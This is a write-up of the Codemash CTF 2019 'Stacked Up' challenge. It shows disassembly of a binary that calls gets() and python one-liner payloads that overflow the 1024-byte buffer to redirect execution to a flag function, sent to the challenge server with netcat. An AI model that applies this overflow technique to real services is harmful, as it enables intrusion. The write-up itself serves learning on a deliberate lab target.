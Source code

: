 ```yaml
---
layout: post
status: publish
published: true
title: Codemash CTF 2019 - Stacked Up
author:
  display_name: John Koerner
  login: admin
  email: blog@johnkoerner.net
  url: ''
author_email: blog@johnkoerner.net
categories:
- codemash
tags:
- codemash
- fun
---
```


Clue
---
A vulnerable service is running here:

`nc whale.hacking-lab.com 5777`

You have the binary of the service. Analyze it, find a vulnerability, and then exploit the server to get the flag!

[stack_binary.zip](/content/stack_binary.zip)

Hint
---
What happens if you input a veeeeeeeeeery long string?


Approach
---
Based on the name of this challenge and the hint, this appears to be a stackoverflow.  I opened this up in IDA and saw the main function code:

```
var_410= qword ptr -410h
var_404= dword ptr -404h
s= byte ptr -400h

push    rbp
mov     rbp, rsp
sub     rsp, 410h
mov     [rbp+var_404], edi
mov     [rbp+var_410], rsi
lea     rdi, s          ; "Input, please! >>----------> "
call    _puts
mov     rax, cs:__bss_start
mov     rdi, rax        ; stream
call    _fflush
lea     rax, [rbp+s]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
mov     eax, 0
leave
retn
main endp
```

There is also a function called `flag` in the binary, which reads a file called flag.txt:

``` asm
push    rbp
mov     rbp, rsp
sub     rsp, 410h
lea     rsi, modes      ; "r"
lea     rdi, filename   ; "flag.txt"
call    _fopen
```

So our goal is to get this function called. Locally I created a flag.txt and then started hacking on the assembly.  The address for the flag function is `0x0000000000400676`.  Knowing that this is a 64-bit assembly is important to make sure we put the full address into the payload.

Looking at the main assembly, I see that s is allocated `0x400` or 1024 bytes. So I created a text file using a python script and decided to try and completely smash the stack:

`python -c "print '\x76\x06\x40\x00\x00\x00\x00\x00'*200" > payload.txt`

I piped the output of my payload to the local binary and got the contents of my `flag.txt`:

`cat payload.txt | ./stack`

So then I tried with `netcat` and got the result:

`cm19-jUmp-inUP-th3S-tACK`

*Note: After talking with others on this solution, a more targeted python script to overwrite a single instruction would be:

`python -c "print 'a'*1032 + '\x76\x06\x40\x00\x00\x00\x00\x00'" > payload.txt`

The extra 8 bytes move us far enough down the stack to overwrite the return address for the function.



[Return to the full breakdown of the Codemash CTF](/codemash/codemash-ctf-breakdown-2019/)